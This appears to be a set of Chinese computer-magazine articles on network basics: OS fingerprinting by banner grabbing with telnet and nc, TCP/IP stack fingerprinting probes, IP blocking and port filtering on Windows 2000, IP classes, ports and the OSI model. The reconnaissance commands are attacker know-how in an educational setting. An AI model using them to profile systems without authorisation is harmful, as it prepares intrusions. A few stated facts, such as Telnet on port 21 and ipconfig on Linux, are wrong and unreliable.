通过 TELNET 的登录尝试，我们就可以很轻松地确定这是一个 HP9000 系列的服务器，操作系统为 10.01 的 HP-UNIX。如果一个怀有恶意的攻击者掌握了这些信息，那么从 Internet 网络上，找到关于这种类型的服务器和操作系统的漏洞并不是一件很难的事情。事实上，很多有经验的管理员已经认识到了这种情况的严重性，并已经通过改变 /etc/issue、/etc/issue.net 的方法，修改了登录信息。这样至少可以将大部分的攻击者迷惑，就是著名的 ISS 的 INTERNET SCANNER 也无法很容易地确定是何种操作系统。但是即便是这样，还是无法防止他人通过其他的手段获得操作系统的类型。在服务器上正常工作的一些服务，如 FTP SERVER 或者 WEB SERVER，都会向人们暴露系统的身份。我们来看下面的例子：

### 1、利用 FTP SERVER 来获取系统类型

```text
myhost> telnet ftp.target.com 21
Trying 123.123.123.123...
Connected to ftp.target.com
Escape character is '^]'.
220 ftp1 FTPServer(UNIX(r) System V Release 4.0) ready
SYST
215 UNIX Type: L8 Version: SUNOS
```

好了，这时虽然我们在登录系统的 TELNET 端口没有什么收获，但在 FTP 的端口上却如愿以偿。一开始 FTP SERVER 就告诉了登录者这个系统为 UNIX 系统，然后通过使用 SYST 命令（完全合法的），它又告诉登录者进一步的信息。这里我们不打算讨论攻击的问题，但这些信息的获取，足以使一个有经验的攻击者谋划一次成功的入侵行动！

### 2、利用 WEB SERVER 来得到信息

```text
myhost> echo 'GET / HTTP/1.0\n' | nc target.com 80 | egrep "Server:"
Server: Microsoft-IIS/4.0
myhost>
```

没错，WEB SERVER 再一次地向我们坦白了“我是谁”！还有一些不太好的方法，诸如利用查询 DNS 的主机信息（不是很可靠）来得知域名时的申请机器类型和操作系统类型，或者使用社会工程学的方法来获得，以及利用某些主机开放的 SNMP 的公共组来查询。

## IP 窗口

## 二、目前的技术

利用 TCP/IP 堆栈指纹的方法

我们发现利用尝试登录时的信息有时候尽管可以获取很多有用的资料，但是很难保证它的真实性与正确性。因此，有人开发了利用网络操作系统里的 TCP/IP 堆栈作为特殊的“指纹”来确定系统的真正身份。这种方法的准确性相当高，因为再精明的管理员都不太可能去修改系统底层网络的堆栈参数。目前，利用这种技术实现的工具很多，比较著名的有 NMAP、CHECKOS、QUESO 等。

利用这一技术，可以精确地区分 Solaris 2.6、2.5-2.51、2.4 或者 LINUX 的内核的细微不同！它的实现手段主要是以下的几种：

- 利用 FIN 探测：通过向目标主机的一个开放端口发送一个 FIN 包（或者是任何没有 ACK 或 SYN 标记的包）然后等待回应。许多系统如 MS-WINDOWS、BSDI、CISCO、HP-UX、MVS 和 IRIX 会返回一个 RESET。
- 利用 BOGUS 标记探测：通过发送一个 SYN 包，它含有带未定义 TCP 标记的 TCP 头。那么在 LINUX 系统的回应中就会包含这个未定义的标记，而在一些别的系统则会在收到 SYN+BOGUS 包之后关闭连接。利用这些特性，可以区分一些操作系统。
- 利用 TCP ISN 采样：这是利用寻找初始化序列长度模式与特定的操作系统相匹配的方法。利用它可以对许多系统分类，如较早的 UNIX 系统是 64K 长度。一些新的 UNIX 系统则是随机增长的长度（Solaris、IRIX、FreeBSD、Digital Unix、Cray 等）。
- 使用 Don't Fragment 位：许多操作系统在发送的包里使用这个位，由此可以确定操作系统的类型。
- 使用 TCP 的初始化窗口：在这里只是简单地检查返回包里包含的窗口长度。这项技术根据各个操作系统不同的初始化窗口大小来唯一确定它们。

## 在 WIN2000 系统中如何封 IP

anonymous

封 IP，主要是为了限制访问，一般分两种情况。一是为了封掉某个或一些用户访问某服务器的权限，因为这些用户会来捣乱、一些私人原因；另一种原因就是某企业的服务器只允许公司内部人员访问，拒绝所有外部的连接。按照限制 IP 的方式，又分为限制某用户访问服务器的权限和限制某用户访问服务器上面某一个服务的权限，例如 FTP 等。下面我就分别一一在 WIN2000 操作系统上加以限制 IP 访问。

- 1. 先说一下怎么拒绝某一个用户访问服务器。以 WIN2000 SERVER 的机器为例。先确定你的机器装了 IIS，在管理工具里面打开 Internet 服务管理器，如图 1 所示：

然后打开默认 WEB 站点的属性页，选择“目录安全性”，如图 2 所示：

在图 2 对话框中点击“IP 地址及域名限制”，弹出如图 3 对话框。我们现在要讲的是拒绝某人访问我们的服务器，所以点“拒绝访问”，再点击“添加”按钮，在弹出对话框里填入被我们拒绝访问的 IP 地址即可。

当然，你还可以直接拒绝一组计算机或来自某个域名的用户的访问权限。如图 4 所示：

- 2. WIN2000 上最常用的 FTP 服务器软件——SERV-U 限制 IP 的方法

打开 SERV-U 管理界面，随便选一个用户，点击“IP 访问”选项，如图 5 所示。

如果我们想拒绝某个 IP 访问本机器，那么只需要在对话框中点“编辑规则”，然后在“规则”框中填入被拒绝访问的 IP 地址即可。例如，我们拒绝 IP 为 192.168.0.21 的用户访问本机，只要在里面写上 192.168.0.21，然后点“添加”按钮就 OK 了，结果如图 6 所示。


## WINDOWS 2000 下实施 TCP/IP 筛选

冯智渊

上期“IP 窗口”中给大家介绍了在 Windows 2000 下封 IP 的方法，这次继续介绍一下在 Windows 2000 下如何实现 TCP/IP 筛选（也就是封端口）。

端口是计算机和外部网络相连的逻辑接口，也是计算机的第一道屏障，端口配置正确与否直接影响到主机的安全。一般来说，仅打开你需要使用的端口会比较安全。微软也考虑到了这一点，在 Windows 2000 中为用户提供了 TCP/IP 筛选功能。

TCP/IP 筛选是用于入站本地主机 TCP/IP 通讯的一组筛选器，因为入站 TCP/IP 通讯的目标 IP 地址编成指定的端口地址、适当的子网广播地址或多播地址，因此本地主机通讯是由主机处理的通讯。TCP/IP 筛选不适用于接口之间转发的路由通讯。使用 TCP/IP 筛选，你可以为每个 IP 接口严格指定外发型的传入 TCP/IP 通讯类型。这个功能设计用于隔离 Internet 或 Internet 服务器所处理的通讯，在没有“路由和远程访问”服务或其他 TCP/IP 应用程序或服务提供 TCP/IP 筛选的情况下，Windows 2000 中的 TCP/IP 筛选功能默认是禁用的，当用户需要使用 TCP/IP 筛选功能时需要在“网络和拨号连接”中手工进行设置。

### 实践方法如下：

- 1、单击“开始”，指向“设置”，然后单击“网络和拨号连接”；
- 2、右击要配置的网络连接，然后单击“属性”，出现连接属性对话框；
- 3、在“常规”选项卡（对于本地连接）或“网络”选项卡上（所有其他连接），单击“Internet 协议（TCP/IP）”，单击“高级”；
- 4、单击“选项”，单击“TCP/IP 筛选”，然后单击“属性”，出现“TCP/IP 筛选”对话框，如图所示。


图“TCP/IP 筛选”对话框

然后执行以下任一操作：要对所有适配器都启用“TCP/IP 筛选”，请选择“启用‘TCP/IP 筛选（所有适配器）’”复选框；要对所有适配器都禁用“TCP/IP 筛选”，请清除“启用 TCP/IP 筛选（所有适配器）”复选框。

- 5、现在可以通过单击“只允许”选项，然后根据你对 TCP/IP 筛选的要求单击 TCP、UDP、或 IP 协议列表下的添加，配置允许通讯的 TCP 端口、UDP 端口或 IP 协议了，比如只启用 TCP 端口 80，则端口 80 以外的所有网络通讯都将被禁用。

注意：在使用了“TCP/IP 筛选”功能后，除了配置允许通讯的端口外，系统将禁止其他所有网络通信端口的连接，即使在本地系统上运行了木马程序，攻击者也无法连接到你的计算机，这样将对我们的计算机带来有效的安全保护。虽然是这样，但还是要提醒各位在配置“TCP/IP 筛选”之前，一定要对你系统所需的通信端口有全面的了解，配置不当将对你正常的通信带来严重问题。

## 浅议 IP 地址分类

Code:9527

我想大家对于“IP 地址”这个词是不会陌生的，最简单的概括就是：它是我们在网络上的门牌号码，无论是接收分组（数据包）还是发送邮件都离不开。大家可能经常听到或者在一些书籍软件中见到诸如“C 类地址、B 类地址”之类的词，那么它们究竟有什么含义呢？

我们知道 Internet 是基于 TCP/IP 协议的，那么位于 Internet 中的每一台主机都会被分配唯一的一个 32 位的 Internet 地址（这项工作由 NIC（network information center）完成），这个地址被用作和其他在网络中的主机进行通讯。每一个 IP 地址又可以分成几部分（如图所示）：网络标识（也称作网络号）；主机标识（也称作主机号）。

- 网络标识：用于标识一个网络
- 主机标识：用于标识某个网络上的特定主机

| 类别 | 起始位 | 网络标识 | 主机标识 |
|---|---|---|---|
| A 类 | 0 | 网络标识 | 主机标识 |
| B 类 | 10 | 网络标识 | 主机标识 |
| C 类 | 110 | 网络标识 | 主机标识 |
| D 类 | 1110 | 多点广播 |  |
| E 类 | 11110 | 保留 |  |

如上图所示，IP 地址可以分为五类：A、B、C、D、E。A 类地址的主机范围从 1.0.0.0—127.255.255.255，此类地址允许有 126 个网络，每个网络可以容纳大约 1600 万台主机；B 类地址的主机范围从 128.0.0.0—191.255.255.255，B 类地址允许有 16382 个网络，每个网络可以容纳大约 6.4 万台主机；C 类地址是我们最常听到也是接触最多的，它允许 200 万个网络，每个网络可以容纳 254 台主机；D 类和 E 类是作为多点广播和预留的地址。

另外，我们还会遇到类似于 127.0.0.1 的地址，这是用于环路测试的保留地址，这种类型的地址不会离开主机，它将环绕在 IP 层上。此外，IP 地址中的 0.0.0.0 被正在启动中的主机所使用，主机启动之后就不再使用了。

讲到这里，不知大家是否对 IP 地址的分类有了一些初步的感性认识，至少当你再看到像 202.154.156.230 这样的地址就知道它是哪类 IP 地址，可以容纳多少主机了。

> **爸妈硬件问题**
>
> 在 Windows 2000 下，如果某个外设有问题，可以用 Windows 2000 中一个方便的实用程序来找到症结之所在。其方法是，打开“控制面板”上的“添加/删除设备”，单击“下一步”，单击“添加/修复设备”，然后单击“下一步”。在 Windows 2000 完成对你的即插即用设备的查找后，选择想要诊断和修复的设备，单击“下一步”，然后按照屏幕提示操作。

## IP 接口

**◎ IP（Internet Protocol）**

IP 全称为 Internet Protocol，是 TCP/IP 网络协议中的基本通讯协议，负责传送数据到指定地址。

IP 地址是怎样产生的呢？我们普通用户的 IP 地址是根据一定的规律，由 IP 地址池自动分配给每个上网用户的，它是动态分配的一个地址，你可以理解成临时通行证，这个临时 IP 地址只能用一次，若是你重新拨号上网，IP 地址就会变得与重新拨号前不同。

IP 地址到底有什么用呢？如果对方想访问你的电脑，就必须知道你的电脑的 IP 地址；如果你想访问对方的电脑，也必须知道对方电脑的 IP 地址；当知道 IP 地址后，由网络服务器按照所输入的 IP 地址去查找相对应的电脑，将信息传送到对方的电脑里。说到这里，有的朋友可能会问：“那我访问搜狐网站输入的网址是 http://www.sohu.com，没有用到 IP 地址呀！”其实 http://www.sohu.com 只是一个域名，要想访问这个网站，网络服务器会把这个域名解析成 IP 地址，再查找相对应的服务器，传送、交换数据。讲到这里，你可能明白了吧！

那怎样才能知道自己的 IP 地址呢？一种简便的方法是使用 Windows 自带的 Winipcfg.exe 命令，在你已拨号上网的状态下，只要点击“开始”菜单中的“运行”命令，然后在“打开”框中输入 winipcfg 命令（如图 1），回车即可调出“IP 配置”窗口，在该窗口中就可以看到你上网时的 IP 地址。


图 1

> **注意**
>
> 在 Windows NT/2000 操作系统中，该命令为 ipconfig（该命令也可以在 Windows 9X 的 DOS 窗口中运行）；在 Linux 操作系统中，该命令也为 ipconfig。

如果你计算机中安装了网卡，你还会看到另一个 IP 地址，这个 IP 是你计算机在局域网中的地址。局域网中的地址可以自己设定，也可以由计算机自动寻找。

**◎ 动态 IP 地址和固定 IP 地址**

如果你采用的是普通上网方式，如通过 ISDN 或 MODEM 上网，你会发现每次上网的 IP 地址都会不同，我们称这为动态 IP 地址。

如果你采用宽带上网或专线上网，如 DDN，则用户上网的 IP 地址一般是不会变化的，我们称这为固定 IP 地址。绝大多数网站的 IP 地址都是固定的，如搜狐网站的 IP 地址就是固定的 202.176.53.36。用户可以向 ISP 申请固定的 IP 地址，可是费用是比较昂贵的。

**◎ NetBIOS 名称**

在网络中，每部计算机都有一个名称，我们称它为 NetBIOS 名称，这是微软规定的。通过“控制面板”→“网络”→“标识”，我们可以设置自己的电脑名称，即 NetBIOS 名称（如图 2）。NetBIOS 名称不能超过 15 个字符（中文不能超过 7 个），同一网络中，不可以出现相同的电脑名。

## 五分钟图解网络基础知识


图 2

**◎ 工作组（WorkGroup）**

工作组其实是将各电脑分门别类。如一个公司有 A、B、C，则我们可以将 A 部门的电脑归在 A 工作组，B 部门的电脑归在 B 工作组，C 部门的电脑归在 C 工作组，这样方便查找相关资源。对于单机上网的用户，工作组可以任意设置。通过“控制面板”→“网络”→“标识”，我们可以设置自己计算机所处的网络工作组。

**◎ Lmhosts 文件**

Lmhosts 是将 NetBIOS 名称与计算机的 IP 地址作出对应的文件，文件名为 Lmhosts.sam。在 Windows 9X 中，Lmhosts 文件位于 Windows 目录，在 Windows NT/2000 中，Lmhosts 文件位于 \Winnt\system32\driver\etc\ 文件夹。一般来说，只要在 Windows 9X 和 Windows NT/2000 的相关目录下编写一个纯文本的 Lmhosts 文件（不要文件后缀名），然后在内加入自己电脑的 IP 地址和 NetBIOS 名，如：

```text
192.168.0.1 bonze #PRE
```

IP 地址 192.168.0.1 和 Bonze 都可以代表你计算机的名称。“#PRE”是将设置信息放入缓冲区。

你可以通过 Ping 命令检测：Ping bonze，则显示的 IP 地址一定是 192.168.0.1。

**◎ 域名（Domain Name）**

Internet 上的计算机都用 IP 地址作为标识，不过 IP 地址太难记，为了解决这一矛盾，推出了域名技术。如：新浪域名是 www.sina.com.cn，大家可以在 DOS 方式中输入命令：Ping www.sina.com.cn，便会看到它的 IP 地址。

**◎ IP 地址和域名的对应**

大家在浏览器的地址栏中输入 www.sohu.com，就会先向 DNS（Domain Name System）查询搜狐的 IP 地址。DNS 查到 IP 地址后，才向用户反馈相关信息。通常每个 ISP 都会架设一个 DNS 服务器来记录 Internet 上的 IP 地址和它们所对应的域名，如果在自己的 DNS 服务器上查询不到，便会向其他的 DNS 服务器询问。如果单位局域网中的计算机数量不多，可以自己在 Windows 9X 的 Windows 文件夹中（Windows NT/2000 的相关文件夹为 \Winnt\system32\driver\etc\）新建一个名为 Hosts（没有后缀名）的文本文件，来记录各电脑的 IP 和域名。

```text
192.168.0.2    www.pc.net
```

## IP 端口

在 Windows 9X/NT/2000 的相关目录中，有一个 Hosts.sam 的文本文件，文件详细说明了 IP 和域名的配对关系。

### ◎主机名（HostName）

主机名（HostName）和 NetBIOS（计算机名）是两个不同的概念。NetBIOS 是微软在 Windows 9X/NT/2000 中的命名方式，而 HostName 是应用于 Internet 中的。比如，你申请了一个叫 abc.com.cn 的域名，则主机名可以任意取，如 pc.abc.com.cn，其中 pc 就是主机名。又如 www.yahoo.com，www 便是 yahoo.com 的主机名。主机名加域名便成为完全合格的域名（Fully Qualified Domain Name，简称 FQDN）。

### ◎NT 的域名（Domain）

NT 的域名和 Internet 中的域名是两个不同的概念。NT Domain 是 NT 网络的一种规划方式，以利于集中管理局域网中的电脑和共享资源。网络服务安装于 NT 系统后，管理员必须输入 Domain 名称，如 ABC，局域网中的其他客户机，如 Windows 9X/NT 工作站，必须拥有 NT 服务器分配的用户名和密码，并且已经登录在 NT 服务器的域名内，才可以共享资源。

### ◎网络协议

每一台计算机和其他电脑连接交流都需要使用相应的网络协议（Protocol）。网络协议在网络中的作用有点类似于人类语言，不同语种的人相互交流，得使用一种共通的语言才行。常见的网络协议有三种：

- 1. NetBEUI 协议（NetBIOS Extended User Interface）：Windows 3.X、Windows 95/98、DOS、NT 之间的连接，需要使用这个网络协议。
- 2. IPX/SPX 协议：如果局域网中有 Novell 的计算机，用户就需要使用这个协议。
- 3. TCP/IP 协议：Internet 中最基本的网络协议，如我们平常使用的浏览、FTP 等，都需要使用此协议。

### ◎网络协议的设置

如果你是单机上网的用户，在“控制面板”→“网络”→“配置”内，最少要填入三个网络组件：Microsoft 网络用户（或 Microsoft 友好登录）、拨号网络适配器、TCP/IP 协议。

如果你的计算机中安装了网卡，则必须在“控制面板”→“网络”→“配置”内加入四个网络组件：Microsoft 网络用户、网络适配器、TCP/IP 协议、NetBEUI 协议。网络协议，用户可以自选增加。

### ◎端口（Port）

计算机中的每一个端口代表一个网络连接，计算机的每一次对外连接都必须使用一个端口。比如，用户上网浏览网页，必须开放计算机的 80 端口，用 Foxmail 收发邮件，必须使用 25 和 110 端口；使用 Telnet 连接，必须使用 21 端口……每一个端口只会让一个程序占用，是独一无二的。如果朋友们想进一步了解计算机的通讯端口，可以打开 Windows 9X 的 Windows 文件夹中（Windows NT/2000 的相关文件夹为 \Winnt\system32\drivers\etc\）一个名为 services 的文本文件，其中记录了端口的详细用途。


wjr

看一些系统管理或者计算机安全方面的文章，“端口”一词出现的次数很多，可见，端口是管理员和系统攻击者都关注的问题。端口可以成为管理员提供服务的途径，也可以成为攻击者的通道，那么到底什么是端口呢？

要设置端口，必须明白什么是端口。首先需要明白的一点是，我们这里所说的端口，不是计算机硬件的 I/O 端口，而是软件形式上的概念。服务器可以向外提供多种服务，比如，一台服务器可以同时是 WEB 服务器，也可以是 FTP 服务器，还可以是邮件服务器。为什么一台服务器可以同时提供那么多的服务呢？其中一个很重要的方面，就是各种服务采用不同的端口分别提供不同的服务，比如：WEB 采用 80 端口，FTP 采用 21 端口等。这样，通过不同端口，计算机与外界就可以进行互不干扰的通信。

- 1. 公认端口（Well Known Ports）：从 0 到 1023，它们紧密绑定于一些服务。通常这些端口的通讯明确表明了某种服务的协议。例如：80 端口实际上总是用于 HTTP 通讯。
- 2. 注册端口（Registered Ports）：从 1024 到 49151。它们松散地绑定于一些服务。也就是说有许多服务绑定于这些端口，这些端口同样用于许多其它目的。例如：许多系统处理动态端口从 1024 左右开始。
- 3. 动态和/或私有端口（Dynamic and/or Private Ports）：从 49152 到 65535。理论上，不应为服务分配这些端口。实际上，机器通常从 1024 起分配动态端口。但也有例外：SUN 的 RPC 端口从 32768 开始。

根据工具所提供服务类型的不同，端口又可以分为以下两种：一种是 TCP 端口，一种是 UDP 端口。计算机之间相互通信的时候，分为两种方式：一种是发送信息以后，可以确认信息是否到达；也就是有应答的方式，这种方式大多采用 TCP 协议；一种是发送以后就不管了，不去确认信息是否到达，这种方式大多采用 UDP 协议。对应这两种协议所提供的服务端口，也就分为 TCP 端口和 UDP 端口。

| 服务 | 端口 | 解释 |
|---|---:|---|
| HTTP | 80 | 超文本传输协议，主要就是提供网页（WEB）服务。 |
| FTP | 21 | 文件传输协议，采用 FTP 方式可以对服务器上传下载文件。 |
| SMTP | 25 | 简单邮件传输协议，主要用于发送邮件。 |
| POP3 | 110 | 邮件接收协议，主要进行邮件接收。 |
| Telnet | 23 | 远程登录协议，常见文字 BBS 就是这种。现在主要用来进行远程维护。 |

| 服务 | 端口 | 解释 |
|---|---:|---|
| DNS | 53 | 域名解析服务。 |
| OICQ | 8000/4000 | 服务器端用 8000 端口，OICQ 软件使用 4000 端口。 |

了解常见的端口以后，我们大致明白了端口的作用。那么，如果攻击者使用软件扫描目标计算机，得到目标计算机开放的端口，也就了解了目标计算机提供了哪些服务。我们都知道，提供服务就一定有服务软件的漏洞，根据这些，攻击者可以达到对目标计算机的初步了解。如果计算机端口打开太多，而管理者不知道，那么，有两种情况：一种是提供了服务而管理者没有注意；比如安装 IIS 的时候，软件就会自动增加很多服务，而管理者可能没有注意到；一种是服务被攻击者安装木马，通过特殊的端口进行通讯。这两种情况都是很危险的。说到底，就是管理员不了解所提供的服务，缺少了系统安全素养。因此补充相应的知识，看好自己的端口就是必不可少的。

## TCP/IP 和 OSI

坏小子

随着互联网中各项技术不断发展，黑客技术也在不停地向前迈进。然而，不论黑客技术怎么发展，互联网技术怎么创新，都离不开它们的基石——TCP/IP 协议栈。

就好比一座大厦，无论多高，都要依靠它坚实的地基……然而，对于这些最基础的东西，你又了解多少呢？也许，很多人都很讨厌那些理论性很强，而且看起来又过于枯燥的东西，但是为了大家共同的梦想……跟我走吧！读完这篇文章，上完你在黑客学习过程中必修的一堂课……

### 一、ISO 给我们带来的 OSI

国际标准化组织（ISO）给我们带来了七层的开放系统互联模型（OSI）：


以上描述了 OSI 七层和各层中包含的协议和一些服务。也许大家会奇怪为什么会有这么多种协议，然而这就是为什么我们称 TCP/IP 为协议栈而不是 TCP/IP 协议的原因了，关键问题就在“栈”字，它就表明了 TCP/IP 协议是由 N 多种协议所组成的一组协议，也可以称之为 TCP/IP 协议组。

好了，已经大概了解了关于 TCP/IP 的一些简单概念了，接下来我就要为大家详细阐述了。

### 二、为什么要分层

先来解决这个问题，我不会告诉大家分层的原因，但是我会告诉你们，数据是怎么打包传输并解包读取的。那时候，大家自然会明白为什么要分层。

首先，要了解数据包的结构。一个数据包，主要分为两部分：报头和数据部分。数据部分不用说了，那就是我们想要传输的东西。而报头呢？报头就是数据在经过这七层的时候，每层给数据前加上的东西，最后形成了报头。

下面我就给朋友们仔细讲讲这七层的具体功能吧，我们就以 QQ 为例：

- 1. **应用层（Application Layer）**：简单地讲，就是应用程序层。比如我们常用的腾讯 QQ，首先甲方利用 QQ 编写了一段消息，打算发送给乙方。
- 2. **表示层（Presentation Layer）**：表示层接到了这个数据后，会把它解释成电脑能够看懂的语言。如果有要求的话，还会对数据加密。
- 3. **会话层（Session Layer）**：它的工作比较简单，它会根据数据传送过程中的一些问题或是软件本身的要求来对甲乙双方的通信做一些控制，例如：加入一些数据来使二者相互同步。
- 4. **传输层（Transport Layer）**：由于网络带宽的要求，所以必须把传送的数据分成 N 个小块的数据包来传输，这样才能保证带宽被有效利用，所以传输层主要做的就是把数据包分成 N 个小段。也许大家会担心，如果把每个小段的数据的顺序弄乱的话，会不会在重组的时候无法恢复成原来的数据包呢？不要担心，这一层中的协议会把每个小段标上一个数字，重组数据包的时候会根据这些数字来判断按什么顺序重新组装数据包。
- 5. **网络层（Network Layer）**：正所谓条条大路通我家！哈哈，在网络上也是这样的，也许从甲的机器到乙的机器的线路有 N 条，那么这个时候，就要靠这层来决定走哪条线路了，也就是常听说的“路由选择”。大家熟悉的路由器就只工作在这一层上的，还有一些比较先进的玩意——第三层交换设备（交换机）也是工作在这层上的。
- 6. **数据链路层（Data Link Layer）**：从网络层接收数据并把它转换成比特（bit）流，然后送到物理层处理。传统的交换机（和第三层交换设备不同）就是工作在这一层。还有，大家熟悉的网卡也是在这层上工作的。
- 7. **物理层（Physical Layer）**：从名字上就可以想到，这层主要是物理设备，所以拥有的主要是一些电气特性。例如：规定高低电压，多高代表“1”，多高代表“0”，然后把它们送到传输介质上。这一层常见设备有中继器和集线器。

是不是看得很糊涂？接下来用一幅图来表现一下，这样就会很明白了：


图 1

整个数据传输过程就像上面的图一样，当乙方接收数据包的时候，只要把甲在给数据添加报头时候的顺序反过来，就可以把数据的报头拆掉，就可以看到数据了。

看到了吧？OSI 中的七层就像是生产车间的流水线一样，每层都有各自的工作，它们只负责自己的工作，只是简单地把数据从上一层接收，然后对数据进行处理，然后再把数据继续传输到下一层。这种工作方式的好处是显而易见的。

### 三、美国国防部的四层网络模型

虽然国际标准化组织制定了七层的 OSI 模型，但是在实际的网络应用中却没有任何一家公司或是政府机关采用了这种模型（据我所知是这样的）。一般来说，各大公司或是政府机关都有自己的网络参考模型，但是它们并非和 OSI 一点关系都没有，这些模型绝大部分都是依照 OSI 的七层模型制定出来的。我们来看一下见得比较多的四层网络模型（DoD 模型），如图 2 所示，即美国国防部制定的 DoD 模型和 OSI 七层模型的对应关系：


图 2

### 四、OSI 七层是如何工作的

当然，除此之外，还有其他结构的模型，就不一一叙述了。接下来给大家讲解 OSI 七层是如何工作的，以及涉及到的一些安全问题。

#### 1、应用层

这一层为用户的应用进程访问 OSI 环境提供服务，是 OSI 七层模型中的最高层。

> 这里大家要搞清楚，应用层的“应用”并不完全等于应用程序，就像上面说的一样，这一层是提供应用进程访问 OSI 环境的。

如果还不明白的话，那就要先搞清楚，什么是进程了。这个问题在 Win2k 里可以很明白地解释，按下 Ctrl+Alt+Del，然后再选择“任务管理器”，里面有个专门的“进程”选项卡，看到这里，我想大家应该可以明白了吧！

一种比较标准的定义方法：

> 进程是一个程序的一次执行的过程，是一个动态的概念。如果有兴趣的话，可以去查询一些操作系统跟程序方面的资料，里面会有详细的解释。

应用层主要是用来完成两个进程之间的通信。

#### 2、表示层

表示层所关心的是两个通信应用进程的数据在传输过程中的语法和表现形式。

为了实现真正的开放系统互联，在这里，ISO（国际标准化组织）定义了通用的抽象语法，该语法被称为抽象语法标记法或 ASN.1（abstract syntax notation number one）。关于这方面，就不具体多说了，再多的话，连我自己都不懂了。大家需要记住的是，语法转换是表示层的最重要的功能。另外，由于表示层处理的是发送前的或是接收到的数据，因此它还负责对数据的加密与压缩。

#### 3、会话层

首先，了解一下，什么叫“会话”？

> 会话是建立在两个进程之间的（进程在前面已经说过了）。同样使用 Win2k，大家进入“控制面板”→“管理工具”→“计算机管理”，里面有一项“共享文件夹”，打开后里面会有“会话”项，有人访问你的共享文件时，这一项中就会有记录。现在大家应该明白一些了吧！

会话层的作用就是向会话的应用进程之间提供会话组织和同步服务。更明确地说，建立会话、管理会话、结束会话都是在这一层完成的。

这一层中有这些常见的服务：超文本传输协议（HTTP）、简单网络管理协议（SNMP）、网络基本输入/输出系统（NETBIOS）。

#### 4、传输层

这层在 OSI 七层中也是十分重要的一层，该层的主要目的是在源主机和目的主机之间提供可靠的端对端通信。

大家看到了“可靠”这两个字，是不是想到了什么呢？呵呵，我也想到了，那就是面向连接的可靠传输协议：TCP 协议。

确实，TCP 协议属于这一层，也正是因此，这一层还要负责如：段排序、差错校验、流控等工作。

#### 5、网络层

网络层最基本的就是寻址，这个应该不会陌生吧！无论你在网上绑定了什么协议，当你上网的时候都会有一个地址，像我们常见的 IP、IPX 等等，网络层的主要作用就是根据这个地址来查找某一台主机。另外，该层还处理一些包交换和电路交换。

> 还有一个比较重要的，那就是有一部分网关类设备工作在这一层，而网关的作用是对不同类型的网络之间进行翻译的，所以这一层的作用还有翻译。

#### 6、数据链路层

这一层主要是通过网络中的线缆来发送信息，而这些信息，我们习惯上称之为“帧”或是“包”。这一层比较特殊，因为它被分化出两个子层：介质访问控制（MAC）子层和 LLC 子层。

1）介质访问控制（MAC）子层。在这一层中，网络可以确定它的逻辑拓扑结构（相对于网络的实际拓扑结构）。确定了逻辑拓扑结构后，MAC 层的协议就知道怎么转换那些数据包了。在这一层，协议在转发和发送数据包时，会涉及到一些方法：

- 竞争：这个应该很容易理解吧！就像很多人同时拨号一样，谁快谁就可以上线。同样道理，竞争就是很多个系统都在尝试发送数据包。
- 令牌传送：举个例子，n 个人站成一圈，有那么一个东西（只有一个），在这个圈内一个接一个地传下去，当有人想说话的时候，必须拿到那个东西才可以说话。同样地，n 台机器，在这 n 台机器组成的网络内，有一个令牌，令牌会依次访问每一台机器，当被访问的机器想发送数据的时候，就会把数据添加到令牌上，把数据发送出去。当令牌被添加了数据后，会有一个标志位，其它机器就可以检测到这个令牌现在有数据在传送，不能使用。当令牌转完一圈回到发送数据的机器上，确定这台机器没有数据再发送了之后，才会再接受其它机器的数据。
- 轮询：这是一种使用中央设备来管理对网络访问权的介质访问控制方法。中央设备被称做“主设备”，其它网络设备被称做“从设备”。“主设备”会依次向每个“从设备”要求数据，当“从设备”被“主设备”查询后，便可以发送数据，否则是不可以的。

2）LLC 子层。这一层主要是负责传输同步和一些连接服务的，例如常见的三种：异步传输、同步传输和即时传输。

至于这三种传输的原理和过程就不多说了，有兴趣的朋友可以看些相关资料。

#### 7、物理层

它是 OSI 模型的最底层，这一层是负责实际的连接，主要负责在物理连线上传输二进制比特流，它还具有一些电气特性。

以上就是 OSI 七层模型每一层的扼要。接下来，我们简单阐述一下一些协议层的安全性。

### 五、TCP/IP 的安全性

我想这部分才是大家真正感兴趣的部分，无论你想做黑客还是网络管理员，了解这部分是很有必要的。以下是一些简单的阐述：

- 1. IPSEC：Internet 协议安全协议（IPSEC），它是工作在网络层中的，它对所有的 UDP 和 TCP 协议的数据都提供安全措施。
- 2. SSL：其实 SSL（安全套接字层，Secure Socket Layer）并不属于 OSI 七层中的任何一层，可以认为是由于安全因素，所以才被添加上去的一层，它位于 TCP/IP 各层协议与各种应用层之间。
- 3. SSH：Secure Shell（SSH）。简单来说，它可以把所有的传输数据都进行加密处理。本刊在以前已有介绍了，我就不多说了。

SSL 是由 Netscape 公司推出的，但是现在它已经被广泛地推广。SSL 协议可分为两层：

- SSL 记录协议（SSL Record Protocol）：它建立在可靠的传输协议（如 TCP）之上，为高层协议提供数据封装、压缩、加密等基本功能的支持。
- SSL 握手协议（SSL Handshake Protocol）：它建立在 SSL 记录协议之上，用于在实际的数据传输开始前，通信双方进行身份认证、协商加密算法、交换加密密钥等。

还有，值得一提的就是 Sniffer 了。我想大家都很熟悉它，像我们常见的 Telnet、FTP 等程序，它们的用户名和密码在网上都是明文传输的，一旦被截取，那么后果可想而知。

一般情况下，我们的网卡是无法接收那些不是发向自己的信息的，然而，当网卡被设置为混杂模式后，就会形成大家熟悉的 Sniffer 了。也就导致了上面所说的，那些网上明文传输的用户名和密码被截取的问题。

说了这么多，都只是冰山一角，TCP/IP 虽然一直盛行，但是安全问题也是多、多、多……大家有兴趣的话，可以好好研究一下。

> **参考资料**
>
> 《构建中小企业网络》——华为技术有限公司  
> 《高校配置 TCP/IP》——Gary Goyanus（电子工业出版社）  
> 《网络组建、调试与安全》——张琳等（人民邮电出版社）  
> 《TCP/IP 详解 卷 1：协议》——W. Richard Stevens（机械工业出版社）

本篇文章是作者在参考以上资料后，并加入一些作者在学习中的经验完成的。难免有不足或错误之处，希望大家提出宝贵意见！


紫色忧郁

在用 TCP/IP 协议族架设的网络中，每一个节点都有一个唯一的 IP 地址，用来作为它们唯一的标志。然而，如果让使用者来记住这些毫无记忆规律的 IP 地址，是不可想象的，人们就需要一种有记忆规律的字符串来作为唯一标记节点的名字。

